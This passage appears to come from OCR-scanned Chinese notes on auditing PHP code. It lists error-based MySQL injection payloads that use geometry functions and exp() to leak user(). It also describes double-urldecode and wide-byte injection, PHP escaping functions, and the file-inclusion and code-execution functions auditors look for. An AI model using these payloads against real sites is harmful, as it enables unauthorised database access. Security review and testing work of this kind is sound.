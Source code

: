 id = 1 AND multipoint（（select * from（select * from（select user（））a）b））

### multilinestring()

id = 1 AND multilinestring（（select * from（select * from（select user（））a）b））

### multipolygon()

id = 1 AND multipolygon（（select * from（select * from（select user（））a）b））

### linestring()

id = 1 AND LINESTRING（（select * from（select * from（select user（））a）b））

### exp()

id = 1 and EXP（~（SELECT*from（SELECT user（））a））

## 二次urldecode注入

addslashes（）、mysql_real_escape_string（）、mysql_escape_string（）转义符号

urldecode或者rawurldecode函数解码

## 宽字节注入

set character_set_client=gbk

## 过滤函数

1、magic_quotes_gpc负责对GET、POST、COOKIE的值进行过滤。

2、magic_quotes_runtime对从数据库或者文件中获取的数据进行过滤。

3、addslashes函数，参数必须是string型

4、mysql_[real_]escape_string函数，转义字符串

5、intval取整函数，针对int型

# 文件包含

include（）、include_once（）、require（）和require_once（）

# 代码执行漏洞

eval（）、assert（）、preg_replace（）、call_user_func（）、call_user_func_array（）、array_map（）


call_user_func（）、call_user_func_array（）、array_map（）
usort（）、uasort（）、uksort（）、array_filter（）、array_reduce（）、array_diff_uassoc（）、array_diff_ukey（）
array_udiff（）、array_udiff_assoc（）、array_udiff_uassoc（）
array_intersect_assoc（）、array_intersect_uassoc（）
array_uintersect（）、array_uintersect_assoc（）
array_uintersect_uassoc（）、array_walk（）、array_walk_recursive（）
xml_set_character_data_handler（）、xml_set_default_handler（）
xml_set_element_handler（）、xml_set_end_namespace_decl_handler（）
xml_set_external_entity_ref_handler（）、xml_set_notation_decl_handler（）
xml_set_processing_instruction_handler（）
xml_set_start_namespace_decl_handler（）
xml_set_unparsed_entity_decl_handler（）、stream_filter_register（）
set_error_handler（）、register_shutdown_function（）、register_tick_function（）

